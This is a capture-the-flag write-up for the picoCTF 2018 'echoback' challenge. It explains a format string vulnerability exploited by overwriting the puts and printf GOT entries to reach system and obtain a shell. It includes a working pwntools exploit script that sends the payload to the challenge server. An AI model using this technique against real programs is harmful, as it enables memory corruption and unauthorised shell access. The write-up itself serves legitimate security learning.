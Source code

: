 As you can see, the program reads in `0x7f` bytes from the user and prints them using `printf`. Also, the program uses `system` from libc which saves us the trouble of leaking the libc base address.

So there are is going to be two stages. Step one, we need to overwrite the `puts` GOT entry in order for the program to loop allowing us to abuse the format string vulnerability more than once. Also, as an additional note, we can only write four bytes with no integer overflow because the `system` GOT entry is right after and we need that. Step two, we need to replace the `printf` GOT entry with the PLT address of `system` which will give us a shell. If both steps are executed correctly, we can then retrieve the flag.

Here is a challenge that is specific to this problem. Although we can write a lot of characters with `%NUMBERx`, it takes a long time for the characters to be printed. We can usually avoid this by doing two short writes (two byte at a time); however, in this case, this will cause a two bytes overflow which will break the `system` GOT entry which is not good. In the end, I did a single four byte write that took forever, but I would love to know if there's a way around this.

Here is my exploit script:

```python
from pwn import *

# sh = process('./echoback')
sh = remote('2018shell2.picoctf.com', 37857)

system_PLT = 0x08048460
puts_GOT = 0x804a01c
printf_GOT = 0x804a010

vuln_addr = 0x080485e7

count1 = vuln_addr
count2 = 0
count3 = (0x10000-((count1+count2)%0x10000)) + (system_PLT & 0x0000ffff)
count4 = (0x10000-((count1+count2+count3)%0x10000)) + int(hex(system_PLT+0x100000000)[3:7],16)

print count1
print count2
print count3
print count4

payload = ''

payload += p32(puts_GOT)
payload += 'a'*4
payload += p32(printf_GOT)
payload += p32(printf_GOT+2)
payload += '%{}x'.format(count1-16)
payload += '%7$n'
payload += '%{}x'.format(count3)
payload += '%9$n'
payload += '%{}x'.format(count4)
payload += '%10$n'

pause()
sh.sendlineafter(':\n', payload)

sh.interactive()
```
